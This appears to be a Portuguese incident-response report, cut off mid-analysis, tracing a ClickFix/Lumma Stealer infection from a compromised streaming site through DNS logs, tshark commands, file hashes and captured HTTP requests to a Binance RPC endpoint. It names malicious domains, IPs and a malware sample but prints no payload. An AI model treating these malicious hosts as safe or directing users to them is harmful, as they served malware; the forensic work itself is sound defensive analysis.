- [Análise do Incidente](https://github.com/willyamcts/report-ir/blob/main/analise_do_incidente.md#Análise-do-Incidente)
	- [Arquivos coletados](https://github.com/willyamcts/report-ir/blob/main/analise_do_incidente.md#Arquivos-coletados)
	- [Análise dos arquivos](https://github.com/willyamcts/report-ir/blob/main/analise_do_incidente.md#Análise-dos-arquivos)
		- [Suspeitos](https://github.com/willyamcts/report-ir/blob/main/analise_do_incidente.md#Suspeitos)
		- [Limpos](https://github.com/willyamcts/report-ir/blob/main/analise_do_incidente.md#Limpos)
	- [Tráfego de rede - PCAP](https://github.com/willyamcts/report-ir/blob/main/analise_do_incidente.md#Tráfego-de-rede---PCAP)
		- [Consultas de DNS](https://github.com/willyamcts/report-ir/blob/main/analise_do_incidente.md#Consultas-de-DNS)
			- [Domínios suspeitos](https://github.com/willyamcts/report-ir/blob/main/analise_do_incidente.md#Domínios-suspeitos)
			- [Respostas do DNS](https://github.com/willyamcts/report-ir/blob/main/analise_do_incidente.md#Respostas-do-DNS)
		- [IPs coletados](https://github.com/willyamcts/report-ir/blob/main/analise_do_incidente.md#IPs-coletados)
			- [IPs nocivos](https://github.com/willyamcts/report-ir/blob/main/analise_do_incidente.md#IPs-nocivos)
		- [Correlacionando IPs nocivos x domínios suspeitos](https://github.com/willyamcts/report-ir/blob/main/analise_do_incidente.md#Correlacionando-IPs-nocivos-x-domínios-suspeitos)
	- [Comunicação HTTP](https://github.com/willyamcts/report-ir/blob/main/analise_do_incidente.md#Comunicação-HTTP)
		- [Análise das requests e response HTTP](https://github.com/willyamcts/report-ir/blob/main/analise_do_incidente.md#Análise-das-requests-e-response-HTTP)
			- [tucinehd.com e bsc-dataseed1.binance.org](#tucinehd.com-e-bsc-dataseed1.binance.org)
			- [mdasidy72.lol](#mdasidy72.lol)


  
# Análise do Incidente

https://cyble.com/threat-actor-profiles/cicada3301/

## Arquivos coletados

A baixo os arquivos do artefato.

```
# find . -type f -exec ls -l {} \;

-rw-r--r-- 1 kali kali 11643334 Jun 24  2024 './Trafego de rede/sitecomprometido.saz'
-rw-r--r-- 1 kali kali 25036797 Jun 24  2024 './Trafego de rede/trafegoderede.pcap'
-rw-r--r-- 1 kali kali 1751 May  3 18:21 ./Notas.txt
-rw-r--r-- 1 kali kali 3188 Jun 24  2024 ./Artefatos/https___bsc-dataseed1.binance.org-6-of-6.txt
-rw-r--r-- 1 kali kali 1049 Jun 24  2024 ./Artefatos/https___bsc-dataseed1.binance.org-3-of-6.txt
-rw-r--r-- 1 kali kali 799 Jun 24  2024 ./Artefatos/PowersShell-script-from-copy-paste.txt
-rw-r--r-- 1 kali kali 1049 Jun 24  2024 ./Artefatos/https___bsc-dataseed1.binance.org-1-of-6.txt
-rw-r--r-- 1 kali kali 1382 Jun 24  2024 ./Artefatos/https___bsc-dataseed1.binance.org-2-of-6.txt
-rw-r--r-- 1 kali kali 1049 Jun 24  2024 ./Artefatos/https___bsc-dataseed1.binance.org-5-of-6.txt
-rw-r--r-- 1 kali kali 90722 Jun 24  2024 ./Artefatos/https___mdasidy72.lol_endpoint-2-of-2.txt
-rw-r--r-- 1 kali kali 2619 Jun 24  2024 ./Artefatos/IOCs-for-ClickFix-pushing-Lumma-Stealer.txt
-rw-r--r-- 1 kali kali 48355 Jun 24  2024 ./Artefatos/page-for-ClickFix-popup-window.html.txt
-rw-r--r-- 1 kali kali 11019407 Jun 24  2024 ./Artefatos/omgsoft.zip
-rw-r--r-- 1 kali kali 11019407 Jun 24  2024 ./Artefatos/omgsoft/omgsoft.exe
-rw-r--r-- 1 kali kali 1923 Jun 24  2024 ./Artefatos/https___weoleycastletaxis.co.uk_chao_baby_cow.html.txt
-rw-r--r-- 1 kali kali 1358 Jun 24  2024 ./Artefatos/https___mdasidy72.lol_endpoint-1-of-2.txt
-rw-r--r-- 1 kali kali 1382 Jun 24  2024 ./Artefatos/https___bsc-dataseed1.binance.org-4-of-6.txt
-rw-rw-r-- 1 kali kali 77615 May  3 18:24 ./Cicada3301.png

```


A seguir a hash sha256 de cada artefato para verificação no VT.

```
# find . -type f -exec sha256sum {} \;

5590d560a6b8638bc4a1c1ef2ee2c9eff89e54fc857f4272b6492b5a4894074  ./Trafego de rede/sitecomprometido.saz
17a218ac6c9785108c19ded7ca2f4abf32d84514093b65fdfffe6306e2778f9d  ./Trafego de rede/ips
f63f193cb8078734ec6fc64220b1e4df5a211ba81f62bb46db3700a7b0719e68  ./Trafego de rede/trafegoderede.pcap
c77ac63f276a1b982701f7f729dfc5c1738ad4262aaba5c0257d0aeca93529fd  ./Notas.txt
248683bb4fdcf08be3e55aa7d0e288e46f887dfe2ead2588b76fe89bb044d3b9  ./Artefatos/https___bsc-dataseed1.binance.org-6-of-6.txt
7960fec71a8d1f5b76bfa5491c6ad1adb2728dfddaf6be3368147e7ec6888b78  ./Artefatos/https___bsc-dataseed1.binance.org-3-of-6.txt
21af4ef9bcebc0c3b52eaf93bbcc069c9df6248f51d4a4016c1970ebec6f5aab  ./Artefatos/PowersShell-script-from-copy-paste.txt
02f51d5fe03b8d628e9b7854d99fdf71f78711c3f915a9741009614c8c4621e1  ./Artefatos/https___bsc-dataseed1.binance.org-1-of-6.txt
1ad8b8a061cd9d9accdbcd2c60e0bff7dde29977984945f1bb30a1ca58346ff6  ./Artefatos/https___bsc-dataseed1.binance.org-2-of-6.txt
7960fec71a8d1f5b76bfa5491c6ad1adb2728dfddaf6be3368147e7ec6888b78  ./Artefatos/https___bsc-dataseed1.binance.org-5-of-6.txt
07e6afbae54d71966fff92920aaf5820683a8d8247ab20877bb1011c67704094  ./Artefatos/https___mdasidy72.lol_endpoint-2-of-2.txt
ab769fa46705e511caf0bb2b1160c3aac45256b1a44ef84f1c193cd37f12078c  ./Artefatos/IOCs-for-ClickFix-pushing-Lumma-Stealer.txt
f4479393f9d4feabe4a876e0c996235cf2aee9a81abc1b68dd919e10d7609f49  ./Artefatos/page-for-ClickFix-popup-window.html.txt
6608aeae3695b739311a47c63358d0f9dbe5710bd0073042629f8d9c1df905a8  ./Artefatos/omgsoft.zip
e60d911f2ef120ed782449f1136c23ddf0c1c81f7479c5ce31ed6dcea6f6adf9  ./Artefatos/omgsoft/omgsoft.exe
96a8d48f9a84f8e22460677baa1b2f6c0c3858d1d193cce1116dfaa3f5c0c73c  ./Artefatos/https___weoleycastletaxis.co.uk_chao_baby_cow.html.txt
1b9bbf4435b066df803b47e8e87995171a5d2775327a7f58e25884e5cf512fc8  ./Artefatos/https___mdasidy72.lol_endpoint-1-of-2.txt
2506bf4da630f17c14c0369bf3cce98242c762ae3327f061774427d0577707c7  ./Artefatos/https___bsc-dataseed1.binance.org-4-of-6.txt
d17d10ccf95fda285cbd0ef8d7417ea36561232bac835b92dc750ced7c9f5908  ./Cicada3301.png
```

Em adição tem a hash do arquivo de Notas.txt dos artefatos:
```
8ec114b29c7f2406809337b6c68ab30b0b7f0d1647829d56125e84662b84ea74
```


## Análise dos arquivos 

### Suspeitos

* omgsoft.zip *** 38 detections
	* https://www.virustotal.com/gui/file/6608aeae3695b739311a47c63358d0f9dbe5710bd0073042629f8d9c1df905a8
	* https://tip.neiki.dev/file/e60d911f2ef120ed782449f1136c23ddf0c1c81f7479c5ce31ed6dcea6f6adf9
	* https://bazaar.abuse.ch/sample/e60d911f2ef120ed782449f1136c23ddf0c1c81f7479c5ce31ed6dcea6f6adf9/

![[images/cenario9-vt-imgsoft_exe.PNG]]


![[images/cenario9-tip_neiki-omgsoft_exe-full.PNG]]


* PowersShell-script-from-copy-paste *** 23 detections
	* https://www.virustotal.com/gui/file/21af4ef9bcebc0c3b52eaf93bbcc069c9df6248f51d4a4016c1970ebec6f5aab

* sitecomprometido.saz *** 18 detections
	* https://www.virustotal.com/gui/file/f5590d560a6b8638bc4a1c1ef2ee2c9eff89e54fc857f4272b6492b5a4894074

* https___weoleycastletaxis.co.uk_chao_baby_cow.html *** 6 detections
	* https://www.virustotal.com/gui/file/96a8d48f9a84f8e22460677baa1b2f6c0c3858d1d193cce1116dfaa3f5c0c73c?nocache=1

* page-for-ClickFix-popup-window.html *** 6 detections
	* https://www.virustotal.com/gui/file/f4479393f9d4feabe4a876e0c996235cf2aee9a81abc1b68dd919e10d7609f49?nocache=1

* https___mdasidy72.lol_endpoint-2-of-2 *** 2 detections
	* https://www.virustotal.com/gui/file/07e6afbae54d71966fff92920aaf5820683a8d8247ab20877bb1011c67704094?nocache=1

### Limpos

* https___bsc-dataseed1.binance.org-1-of-6
	* https://www.virustotal.com/gui/file/02f51d5fe03b8d628e9b7854d99fdf71f78711c3f915a9741009614c8c4621e1?nocache=1

* https___bsc-dataseed1.binance.org-2-of-6
	* https://www.virustotal.com/gui/file/1ad8b8a061cd9d9accdbcd2c60e0bff7dde29977984945f1bb30a1ca58346ff6?nocache=1

* https___bsc-dataseed1.binance.org-3-of-6
* https___bsc-dataseed1.binance.org-5-of-6
	* https://www.virustotal.com/gui/file/7960fec71a8d1f5b76bfa5491c6ad1adb2728dfddaf6be3368147e7ec6888b78?nocache=1

* https___bsc-dataseed1.binance.org-4-of-6
	* https://www.virustotal.com/gui/file/2506bf4da630f17c14c0369bf3cce98242c762ae3327f061774427d0577707c7

* https___bsc-dataseed1.binance.org-6-of-6
	* https://www.virustotal.com/gui/file/248683bb4fdcf08be3e55aa7d0e288e46f887dfe2ead2588b76fe89bb044d3b9

* https___mdasidy72.lol_endpoint-1-of-2
	* https://www.virustotal.com/gui/file/1b9bbf4435b066df803b47e8e87995171a5d2775327a7f58e25884e5cf512fc8

* IOCs-for-ClickFix-pushing-Lumma-Stealer
	* https://www.virustotal.com/gui/file/ab769fa46705e511caf0bb2b1160c3aac45256b1a44ef84f1c193cd37f12078c


----------


## Tráfego de rede - PCAP

No tráfego coletado, é notável que há apenas 2 hosts interno, sendo 10.6.24.101 (host) e 0 10.6.24.1 (gateway) da rede, isso pode ser visto por exemplo através das consultas de DNS...




### Consultas de DNS

Vamos iniciar pelas consultas de DNS, as quais irão nortear as comunicações estabelecidas. A seguir a lista de todas as consultas de DNS realizado pelo host `10.6.24.101`:


Domínios consultados e a respectiva hora da consulta (UTC) :
- 2024-06-24 13:39:59.015412 — blogger.googleusercontent.com
- 2024-06-24 13:40:03.813776 — www.google-analytics.com
- 2024-06-24 13:40:03.815770 — s53.chatango.com
- 2024-06-24 13:40:03.816095 — ust.chatango.com
- 2024-06-24 13:40:04.383001 — www.virtuousescape.pro
- 2024-06-24 13:40:04.882717 — cdn62542989.ahacdn.me
- 2024-06-24 13:40:05.508263 — dnacdn.net
- 2024-06-24 13:40:05.510106 — ag.gbc.criteo.com
- 2024-06-24 13:40:14.094671 — bsc-dataseed1.binance.org
- 2024-06-24 13:40:15.580628 — mdasidy72.lol
- 2024-06-24 13:41:47.599416 — weoleycastletaxis.co.uk
- 2024-06-24 13:41:54.141751 — browser.pipe.aria.microsoft.com
- 2024-06-24 13:41:57.882853 — static-ecst.licdn.com
- 2024-06-24 13:42:15.119745 — latesttributedowps.shop
- 2024-06-24 13:42:21.645103 — latesttributedowps.shop


#### Domínios suspeitos

Domínios potencialmente malicioso, segundo VT:
- 2024-06-24 13:40:15.580628 — mdasidy72.lol
- 2024-06-24 13:41:47.599416 — weoleycastletaxis.co.uk
- 2024-06-24 13:42:15.119745 — latesttributedowps.shop

#### Respostas do DNS

Abaixo a evidência das respostas de DNS. É necessário considerar que o acesso a página infectada inicialmente já estava sendo carregada antes de iniciar a coleta do tráfego. O domínio é o ` tucinehd.com`.



```
# tshark -r "Trafego de rede/trafegoderede.pcap" -Y "dns.flags.response == 1" -T fields -e _ws.col.Info | awk '{for(i=5; i<=NF; i++) printf "%s%s", $i, (i<NF?" ":"\n")}'

 ** (tshark:74729) 12:24:04.029880 [Epan WARNING] ./epan/prefs.c:4986 -- read_prefs_file(): Incomplete preference at line 6 of
/home/kali/.config/wireshark/decode_as_entries (save preferences to remove this warning)

A blogger.googleusercontent.com CNAME googlehosted.l.googleusercontent.com A 142.251.116.132

A ust.chatango.com A 208.93.230.24 A 208.93.230.16 A 208.93.230.18 A 208.93.230.26 A 208.93.230.22 A 208.93.230.28

A www.google-analytics.com A 142.250.113.102 A 142.250.113.138 A 142.250.113.101 A 142.250.113.113 A 142.250.113.139 A 142.250.113.100

A s53.chatango.com A 208.93.230.168

A www.virtuousescape.pro CNAME cdn54405831.ahacdn.me A 45.133.44.1 A 45.133.44.2

A cdn62542989.ahacdn.me A 45.133.44.2 A 45.133.44.1

A dnacdn.net A 74.119.118.149

A ag.gbc.criteo.com CNAME gbc8.da.us.criteo.com A 199.204.170.235 A 199.204.170.227 A 199.204.170.251 A 199.204.170.243 A 199.204.170.232 A 199.204.170.236 A 199.204.170.241 A 199.204.170.224 A 199.204.170.225 A 199.204.170.229 A 199.204.170.250 A 199.204.170.246 A 199.204.170.231 A 199.204.170.244 A 199.204.170.234 A 199.204.170.230 A 199.204.170.248 A 199.204.170.239 A 199.204.170.249 A 199.204.170.226 A 199.204.170.228 A 199.204.170.238 A 199.204.170.237 A 199.204.170.245 A 199.204.170.247 A 199.204.170.240 A 199.204.170.242 A 199.204.170.233

A bsc-dataseed1.binance.org CNAME a1d4ba62fdc34338f.awsglobalaccelerator.com A 52.223.34.155 A 35.71.137.105

A mdasidy72.lol A 172.67.223.119 A 104.21.83.108

A weoleycastletaxis.co.uk A 161.35.162.41

A browser.pipe.aria.microsoft.com CNAME browser.events.data.trafficmanager.net CNAME onedscolprdwus12.westus.cloudapp.azure.com A 20.189.173.13

A static-ecst.licdn.com CNAME cs1404.wpc.epsiloncdn.net A 152.199.24.163

A latesttributedowps.shop A 172.67.138.40 A 104.21.70.178

A latesttributedowps.shop A 104.21.70.178 A 172.67.138.40
```

Lista organizada:
* blogger.googleusercontent.com: 142.251.116.132
* ust.chatango.com: 208.93.230.24, 208.93.230.16, 208.93.230.18, 208.93.230.26, 208.93.230.22, 208.93.230.28
* www.google-analytics.com: 142.250.113.102, 142.250.113.138, 142.250.113.101, 142.250.113.113, 142.250.113.139, 142.250.113.100
* s53.chatango.com: 208.93.230.168
* www.virtuousescape.pro: 45.133.44.1, 45.133.44.2
* cdn62542989.ahacdn.me: 45.133.44.2, 45.133.44.1
* dnacdn.net: 74.119.118.149
* ag.gbc.criteo.com: 199.204.170.235, 199.204.170.227, 199.204.170.251, 199.204.170.243, 199.204.170.232, 199.204.170.236, 199.204.170.241, 199.204.170.224, 199.204.170.225, 199.204.170.229, 199.204.170.250, 199.204.170.246, 199.204.170.231, 199.204.170.244, 199.204.170.234, 199.204.170.230, 199.204.170.248, 199.204.170.239, 199.204.170.249, 199.204.170.226, 199.204.170.228, 199.204.170.238, 199.204.170.237, 199.204.170.245, 199.204.170.247, 199.204.170.240, 199.204.170.242, 199.204.170.233
* bsc-dataseed1.binance.org: 52.223.34.155, 35.71.137.105
* mdasidy72.lol: 172.67.223.119, 104.21.83.108
* weoleycastletaxis.co.uk: 161.35.162.41
* browser.pipe.aria.microsoft.com: 20.189.173.13
* static-ecst.licdn.com: 152.199.24.163
* latesttributedowps.shop: 172.67.138.40, 104.21.70.178

Uso dos domínios
* blogger.googleusercontent.com, www.google-analytics.com: Google content/Ad
* ust.chatango.com, s53.chatango.com: chat online
* www.virtuousescape.pro: ??? - VT nada nocivo
* cdn62542989.ahacdn.me: ??? - VT nada nocivo
* ag.gbc.criteo.com: hospedagem de plataforma para e-commerce a princípio
* 


### IPs coletados

A seguir todos os endereços IPs que se comunicaram durante a coleta do tráfego presente no PCAP.
```
# tshark -r trafegoderede.pcap -T fields -e ip.src -e ip.dst | tr '\t' '\n' | sort -u 

104.21.70.178
10.6.24.1
10.6.24.101
108.156.211.38
13.107.21.239
142.250.113.102
142.250.113.132
142.250.114.95
142.251.116.132
142.251.116.94
151.101.180.134
151.101.181.44
161.35.162.41
172.67.138.40
172.67.223.119
185.93.1.246
199.204.170.235
199.204.170.29
208.88.225.116
208.93.230.168
208.93.230.24
208.93.230.26
45.133.44.1
45.133.44.2
52.223.34.155
74.119.118.149
74.119.118.154
94.242.50.135
```




#### IPs nocivos

Onde verificar?
- https://docs.virustotal.com/reference/overview
- https://docs.virustotal.com/reference/ip-info
- https://docs.abuseipdb.com/#configuring-fail2ban

**Verificações**
Vírus Total:
- https://www.virustotal.com/gui/ip-address/208.88.225.116
- https://www.virustotal.com/gui/ip-address/208.93.230.24
- https://www.virustotal.com/gui/ip-address/74.119.118.154

Abuse IP:
- https://www.abuseipdb.com/check/74.119.118.149
- https://www.abuseipdb.com/check/52.223.34.155
- https://www.abuseipdb.com/check/142.250.113.132
- https://www.abuseipdb.com/check/142.250.114.95
- https://www.abuseipdb.com/check/142.251.116.132
- https://www.abuseipdb.com/check/142.251.116.94
- https://www.abuseipdb.com/check/161.35.162.41
- https://www.abuseipdb.com/check/172.67.138.40
- https://www.abuseipdb.com/check/185.93.1.246
- https://www.abuseipdb.com/check/45.133.44.2
- https://www.abuseipdb.com/check/52.223.34.155
- https://www.abuseipdb.com/check/74.119.118.149
- https://www.abuseipdb.com/check/74.119.118.154

Não sei se no Abuse é um bom local, pois pode haver um cooldown para os IPs saírem da lista de nocivos do AbuseIP.


### Correlacionando IPs nocivos x domínios suspeitos

Domínios potencialmente malicioso, segundo VT:
* 2024-06-24 13:40:15.580628 — mdasidy72.lol —  A 172.67.223.119 A 104.21.83.108
- 2024-06-24 13:41:47.599416 — weoleycastletaxis.co.uk — A 161.35.162.41
- 2024-06-24 13:42:15.119745 — latesttributedowps.shop — A 104.21.70.178 A 172.67.138.40

Verificação de cada IP:
* https://www.abuseipdb.com/check/172.67.223.119 - nenhum report
* https://www.abuseipdb.com/check/104.21.83.108 - 2 report em 07/2025 e 10/2023
* https://www.abuseipdb.com/check/161.35.162.41 - 2 report em 10/2022
* https://www.abuseipdb.com/check/104.21.70.178 - nenhum report
* https://www.abuseipdb.com/check/172.67.138.40 - 1 report em 05/2023

* https://www.virustotal.com/gui/ip-address/172.67.223.119
	* 11/2025 limpo
	* 06/2024 respondia por 172.67.223.119 104.21.83.108
	* possui IoCs relacionados
	* relacionado com arquivo `IOCs-for-ClickFix-pushing-Lumma-Stealer.txt` hash `ab769fa46705e511caf0bb2b1160c3aac45256b1a44ef84f1c193cd37f12078c` é um txt coletado entre os artefatos, mas não malicioso
* https://www.virustotal.com/gui/ip-address/104.21.83.108: não chegou a comunicar
* https://www.virustotal.com/gui/ip-address/161.35.162.41: nenhuma informação suspeita
* https://www.virustotal.com/gui/ip-address/104.21.70.178: nenhuma informação suspeita
* https://www.virustotal.com/gui/ip-address/172.67.138.40: nenhuma informação suspeita


## Comunicação HTTP

A seguir as conexões HTTP/S que ocorreram em sua real sequência

```
# obtido informações basicas do tráfego do PCAP
tshark -r "Trafego de rede/trafegoderede.pcap" -T fields -e frame.number -e ip.src -e tcp.srcport -e ip.dst -e tcp.dstport -e _ws.col.Protocol > traff_sequence.txt

```

Listando apenas o tráfego HTTP/S
```
# for ip in $(cat "Trafego de rede/ips"); do grep -w $ip traff_sequence.txt| head -n1; done | sort --sort=numeric > first_package_by_ip.txt

1       10.6.24.101     50070   94.242.50.135   443     TCP
1       10.6.24.101     50070   94.242.50.135   443     TCP
4       10.6.24.101     50072   142.250.114.95  443     TCP
6       10.6.24.101     50073   142.251.116.132 443     TCP
513     10.6.24.101     50093   142.251.116.94  443     TCP
523     10.6.24.101     50098   185.93.1.246    443     TCP
524     10.6.24.101     50099   208.93.230.26   443     TCP
4696    10.6.24.101     50114   142.250.113.132 443     TCP
7860    10.6.24.101     50124   208.88.225.116  443     TCP
8035    10.6.24.101     50125   208.93.230.24   443     TCP
8036    10.6.24.101     50126   142.250.113.102 443     TCP
8037    10.6.24.101     50127   151.101.181.44  443     TCP
8069    10.6.24.101     50128   151.101.180.134 443     TCP
8390    10.6.24.101     50130   13.107.21.239   443     TCP
8391    10.6.24.101     50131   208.93.230.168  8081    TCP
8933    10.6.24.101     50135   45.133.44.1     443     TCP
9220    10.6.24.101     50139   45.133.44.2     443     TCP
9221    10.6.24.101     50140   74.119.118.149  443     TCP
9321    10.6.24.101     50142   74.119.118.154  443     TCP
9349    10.6.24.101     50147   199.204.170.235 443     TCP
9350    10.6.24.101     50148   199.204.170.29  443     TCP
9540    10.6.24.101     50176   108.156.211.38  443     TCP
10071   10.6.24.101     50192   52.223.34.155   443     TCP
10119   10.6.24.101     50194   172.67.223.119  443     TCP
10306   10.6.24.101     50340   161.35.162.41   443     TCP
18327   10.6.24.101     50346   172.67.138.40   443     TCP
19865   10.6.24.101     50348   104.21.70.178   443     TCP
```

Associando cada IP com as respostas de DNS obtida:
```
# awk '{print $4":"$5}' first_package_by_ip.txt | while IFS= read -r ip; do echo -n "$ip - "; grep -w $(echo $ip |awk -F':' '{print $1}') dns_reponses.txt |head -n1 |awk '{print $2}'; echo; done | sed '/^$/d' > first_conn+dns_resp.txt

94.242.50.135:443 -
94.242.50.135:443 -
142.250.114.95:443 -
142.251.116.132:443 - blogger.googleusercontent.com
142.251.116.94:443 -
185.93.1.246:443 -
208.93.230.26:443 - ust.chatango.com
142.250.113.132:443 -
208.88.225.116:443 -
208.93.230.24:443 - ust.chatango.com
142.250.113.102:443 - www.google-analytics.com
151.101.181.44:443 -
151.101.180.134:443 -
13.107.21.239:443 -
208.93.230.168:8081 - s53.chatango.com
45.133.44.1:443 - www.virtuousescape.pro
45.133.44.2:443 - www.virtuousescape.pro
74.119.118.149:443 - dnacdn.net
74.119.118.154:443 -
199.204.170.235:443 - ag.gbc.criteo.com
199.204.170.29:443 -
108.156.211.38:443 -
52.223.34.155:443 - bsc-dataseed1.binance.org
172.67.223.119:443 - mdasidy72.lol
161.35.162.41:443 - weoleycastletaxis.co.uk
172.67.138.40:443 - latesttributedowps.shop
104.21.70.178:443 - latesttributedowps.shop
```


Abaixo a lista associando IP aos domínios encontrados:

1. 94.242.50.135:443 - tucinehd.com
2. 142.250.114.95 - 
3. 142.251.116.132:443 - blogger.googleusercontent.com
4. 142.251.116.94:443 -
5. 185.93.1.246:443 -
6. 208.93.230.26:443 - ust.chatango.com
7. 142.250.113.132:443 -
8. 208.88.225.116:443 -
9. 208.93.230.24:443 - ust.chatango.com
10. 142.250.113.102:443 - www.google-analytics.com
11. 151.101.181.44:443 - histórico de SSL `*.taboola.com`
12. 151.101.180.134:443 - histórico de SSL `*.disqus.com`
13. 13.107.21.239:443 -
14. 208.93.230.168:8081 - s53.chatango.com
15. 45.133.44.1:443 - www.virtuousescape.pro
16. 45.133.44.2:443 - www.virtuousescape.pro
17. 74.119.118.149:443 - dnacdn.net
18. 74.119.118.154:443 - associado a subdomínios de criteo.net
19. 199.204.170.235:443 - ag.gbc.criteo.com
20. 199.204.170.29:443 - diversos subdomínios de criteo.com
21. 108.156.211.38:443 -
22. 52.223.34.155:443 - bsc-dataseed1.binance.org
23. 172.67.223.119:443 - mdasidy72.lol
24. 161.35.162.41:443 - weoleycastletaxis.co.uk
25. 172.67.138.40:443 - latesttributedowps.shop
26. 104.21.70.178:443 - latesttributedowps.shop


### Análise das requests e response HTTP


#### tucinehd.com e bsc-dataseed1.binance.org

**1- o acesso ao site https://tucinehd.com direcionou requisições para o https://bsc-dataseed1.binance.org solicitando os métodos aceitos pelo site**
```
OPTIONS https://bsc-dataseed1.binance.org/ HTTP/1.1
Host: bsc-dataseed1.binance.org
Connection: keep-alive
Cache-Control: max-age=0
Accept: */*
Access-Control-Request-Method: POST
Access-Control-Request-Headers: content-type
Origin: https://tucinehd.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36 Edg/126.0.0.0
Sec-Fetch-Mode: cors
Sec-Fetch-Site: cross-site
Sec-Fetch-Dest: empty
Referer: https://tucinehd.com/
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: en


HTTP/1.1 204 No Content
Date: Mon, 24 Jun 2024 16:40:14 GMT
Connection: keep-alive
Access-Control-Allow-Credentials: true
Access-Control-Allow-Headers: *
Access-Control-Allow-Methods: POST, GET, OPTIONS
Access-Control-Allow-Origin: *
Access-Control-Max-Age: 600
X-Frame-Options: SAMEORIGIN
X-Xss-Protection: 1; mode=block
X-Content-Type-Options: nosniff
Referrer-Policy: origin-when-cross-origin
Strict-Transport-Security: max-age=31536000; includeSubdomains
```

**2- a segunda requisição foi enviado um JSON para o https://bsc-dataseed1.binance.org** 
```


POST https://bsc-dataseed1.binance.org/ HTTP/1.1
Host: bsc-dataseed1.binance.org
Connection: keep-alive
Content-Length: 60
Cache-Control: max-age=0
sec-ch-ua: "Not/A)Brand";v="8", "Chromium";v="126", "Microsoft Edge";v="126"
sec-ch-ua-platform: "Windows"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36 Edg/126.0.0.0
content-type: application/json
Accept: */*
Origin: https://tucinehd.com
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://tucinehd.com/
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: en

{"method":"eth_chainId","params":[],"id":42,"jsonrpc":"2.0"}


HTTP/1.1 200 OK
Date: Mon, 24 Jun 2024 16:40:14 GMT
Content-Type: application/json; charset=utf-8
Connection: keep-alive
Vary: Accept-Encoding
Access-Control-Allow-Credentials: true
Access-Control-Allow-Headers: *
Access-Control-Allow-Methods: POST, GET, OPTIONS
Access-Control-Allow-Origin: *
Access-Control-Max-Age: 600
X-Nr-Trace-Id: 00000000000000000000000000000000
X-Frame-Options: SAMEORIGIN
X-Xss-Protection: 1; mode=block
X-Content-Type-Options: nosniff
Referrer-Policy: origin-when-cross-origin
Strict-Transport-Security: max-age=31536000; includeSubdomains
Content-Length: 41

{"jsonrpc":"2.0","id":42,"result":"0x38"}
```

**3- a mesma consulta do pacote 1, para verificar os métodos aceitos pelo site**
```
OPTIONS https://bsc-dataseed1.binance.org/ HTTP/1.1
Host: bsc-dataseed1.binance.org
Connection: keep-alive
Cache-Control: max-age=0
Accept: */*
Access-Control-Request-Method: POST
Access-Control-Request-Headers: content-type
Origin: https://tucinehd.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36 Edg/126.0.0.0
Sec-Fetch-Mode: cors
Sec-Fetch-Site: cross-site
Sec-Fetch-Dest: empty
Referer: https://tucinehd.com/
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: en


HTTP/1.1 204 No Content
Date: Mon, 24 Jun 2024 16:40:15 GMT
Connection: keep-alive
Access-Control-Allow-Credentials: true
Access-Control-Allow-Headers: *
Access-Control-Allow-Methods: POST, GET, OPTIONS
Access-Control-Allow-Origin: *
Access-Control-Max-Age: 600
X-Frame-Options: SAMEORIGIN
X-Xss-Protection: 1; mode=block
X-Content-Type-Options: nosniff
Referrer-Policy: origin-when-cross-origin
Strict-Transport-Security: max-age=31536000; includeSubdomains


```

**4- é enviado novamente um JSON (POST) sem informações aparentemente relevantes - id:43**
```
